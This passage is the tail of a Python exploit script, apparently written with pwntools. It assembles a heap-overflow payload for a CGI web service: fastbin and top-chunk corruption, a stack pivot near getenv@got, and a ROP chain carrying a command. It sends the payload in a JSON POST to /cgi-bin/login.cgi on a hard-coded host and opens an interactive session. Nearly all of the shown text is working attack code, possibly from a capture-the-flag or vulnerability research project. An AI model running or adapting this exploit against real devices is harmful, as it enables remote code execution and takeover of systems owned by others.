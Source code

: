 ```plain
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))


    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

    http_body = json_template % get_raw_payload(payload)
    write("exp_data", http_body)

    http_template = b'''
POST /cgi-bin/login.cgi HTTP/1.1\r
Host: %s:%d\r
Content-Type: application/json\r
Content-Length: %d\r
\r
%s
'''.strip()
    # print(http_template)

    http_message = http_template % (host, port, len(http_body), http_body)

    io.send(http_message)

    io.interactive()

if __name__ == "__main__":
    host = b"192.168.64.135"
    port = 8080

```